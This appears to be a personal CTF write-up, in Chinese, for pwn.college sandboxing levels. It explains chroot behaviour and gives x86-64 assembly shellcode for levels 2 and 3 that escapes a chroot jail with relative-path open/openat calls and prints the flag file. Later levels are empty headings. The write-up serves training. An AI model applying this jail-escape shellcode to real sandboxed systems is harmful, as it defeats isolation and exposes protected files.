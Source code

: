 ```yaml
---
title: PWN-College-SandBox-Writeup
date: 2024-09-14 10:46:00
author: 美食家李老叭
img: https://laboratory-1304292449.cos.ap-nanjing.myqcloud.com/note/20240606170337.png
top: false
hide: false
cover: false
coverImg: 
password: 
toc: true
mathjax: false
summary: CTF 
categories: CTF
tags:
    - Web
---
```

# pwn.college

https://pwn.college/system-security/sandboxing/

## 有价值的问题

###

###


## level 1

如果在根目录下面执行的话，直接`/challenge/babay flag`即可

`chroot()` changes the meaning of `/` for a process and its children.

`chroot("/tmp/jail")` has two effects:
 - For this process, change the meaning of "/" to mean "/tmp/jail".
    - and everything under that: "/flag" becomes "/tmp/jail/flag"
 - For this process, change "/tmp/jail/.." to go to "tmp/jail"

`chroot("/tmp/jail")` does NOT:
- Close resources that reside outside of the jail.
- `cd(chdir())` into the jail.
- Do anything else ！
- Neither of the effects of `chroot` do anything to previously-open resources.
- change hte current working directory



## level 2

`/challenge/babyjail_level2 ./test < ./shellcode.bin`

```asm
BITS 64

section .data
    filename db '../../../../flag', 0    ; 文件路径需要替换为正确的路径

section .bss
    buffer resb 100                   ; 100 字节缓冲区

section .text
global _start

_start:
    ; open("filename", O_RDONLY)
    xor rax, rax
    mov rax, 2                        ; SYS_open
    lea rdi, [rel filename]
    xor rsi, rsi                      ; O_RDONLY = 0
    syscall

    ; 检查 open 的返回值
    test rax, rax
    js error                          ; 如果打开文件失败，跳转到错误处理

    ; read(fd, buffer, 100)
    mov rdi, rax                      ; fd
    lea rsi, [rel buffer]
    mov rdx, 100                      ; 读取 100 字节
    xor rax, rax                      ; SYS_read
    syscall

    ; write(1, buffer, rax)
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall

    ; exit(0)
    xor rdi, rdi                      ; 返回码 0
    mov rax, 60                       ; SYS_exit
    syscall

error:
    ; exit(1)
    mov rdi, 1                        ; 返回码 1
    mov rax, 60                       ; SYS_exit
    syscall
```

## level 3

注意`open`函数打开的，既有可能是一个文件，也有可能是一个目录。

`/challenge/babyjail_level3 ./ < ./shellcode.bin`

```asm
BITS 64

section .data
    filename db '../../../../flag', 0    ; 文件路径需要替换为正确的路径
    errormessage db 'error', 0

section .bss
    buffer resb 100                   ; 100 字节缓冲区

section .text
global _start

_start:
    ; openat(3, filename, 0, 0)
    xor rdi, rdi
    xor rax, rax
    xor r10, r10
    mov rdi, 3
    xor rdx, rdx
    mov rax, 0x101                    ; SYS_openat
    lea rsi, [rel filename]
    syscall

    ; 检查 open 的返回值
    test rax, rax
    js error                          ; 如果打开文件失败，跳转到错误处理

    ; read(fd, buffer, 100)
    mov rdi, rax                      ; fd
    lea rsi, [rel buffer]
    mov rdx, 100                      ; 读取 100 字节
    xor rax, rax                      ; SYS_read
    syscall

    ; write(1, buffer, rax)
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall

    ; exit(0)
    xor rdi, rdi                      ; 返回码 0
    mov rax, 60                       ; SYS_exit
    syscall

error:
    ; write(1, buffer, rax)
    lea rsi, [rel errormessage]
    mov rdi, 1                        ; stdout
    mov rdx, rax                      ; 读取的字节数
    mov rax, 1                        ; SYS_write
    syscall


    ; exit(1)
    mov rdi, 1                        ; 返回码 1
    mov rax, 60                       ; SYS_exit
    syscall


```

## level 4


## level 5


## level 6



## level 7
